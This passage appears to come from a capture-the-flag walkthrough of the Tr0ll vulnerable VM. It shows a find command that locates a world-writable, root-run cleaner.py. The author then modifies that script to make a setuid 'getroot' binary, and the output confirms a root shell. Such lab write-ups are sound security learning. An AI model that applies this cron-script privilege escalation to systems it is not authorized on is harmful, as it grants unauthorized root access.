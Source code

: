 There was a file in `/opt/` called `lmao.py`, however I did not have access to read it. Soooo, more enumeration.

*suddenly*

```bash Tr0ll times up
Broadcast Message from root@trol                                               
        (somewhere) at 16:05 ...                                               
                                                                               
TIMES UP LOL!                                                                  
                                                                               
Connection to 192.168.56.101 closed by remote host.
Connection to 192.168.56.101 closed.
root@kali:~#
```

Urgh. Turns out, something is killing my ssh session every 5 minutes. **Oh my word**, was that annoying. I could handle everything the VM's offered, but this was probably the worst part of it.

Eventually, I was searching for executable files on the filesystem. I was filtering out a large chunk and gradually paging though results to find that odd one out. To help filter out uninteresting stuff, it looked like the VM was built in August, so I just grep for that in the results, hoping that the _thing_ I should be finding has a more recent timestamp:

```bash Tr0ll check 
overflow@troll:/$ find / -executable -type f 2> /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug

-rwxrwxrwx 1 root  root    145 Aug 14 13:11 /lib/log/cleaner.py
-rwx--x--x 1 root  root    117 Aug 10 02:11 /opt/lmao.py
-rwxr-xr-x 1 root  root   2.4K Aug 27  2013 /sbin/installkernel
-rwxrwxrwx 1 troll root   7.9K Aug 10 00:43 /srv/ftp/lol.pcap
```

A few interesting results came from that, however, the one that held the golden nugget was `/lib/log/cleaner.py`. During my enumeration I noticed that `/tmp` got cleaned out at a really strange time as I was still trying to `less` a file in there, however, it just _disappeared_.

Anyways, as `cleaner.py` was owned by root and running `os.system`, I just modified it to prepare me a classic `getroot` binary:

```python cleaner.py
#!/usr/bin/env python
import os
import sys
try:
    os.system('chown root:root /var/tmp/getroot; chmod 4755 /var/tmp/getroot ')
except:
    sys.exit()
```

I waited for that annoying 'Times UP' message, and inspected `/var/tmp`:

```bash rooted
overflow@troll:/$ ls -lah /var/tmp/
total 24K
drwxrwxrwt  2 root     root     4.0K Aug 14 13:11 .
drwxr-xr-x 12 root     root     4.0K Aug 10 03:56 ..
-rwxrwxrwx  1 root     root       34 Aug 13 01:16 cleaner.py.swp
-rwsr-xr-x  1 root     root     7.2K Aug 14 13:09 getroot
-rw-rw-r--  1 overflow overflow   71 Aug 14 13:09 sh.c

overflow@troll:/$ /var/tmp/getroot 
#
# id
uid=0(root) gid=1002(overflow) groups=0(root),1002(overflow)

# ls /root
proof.txt
```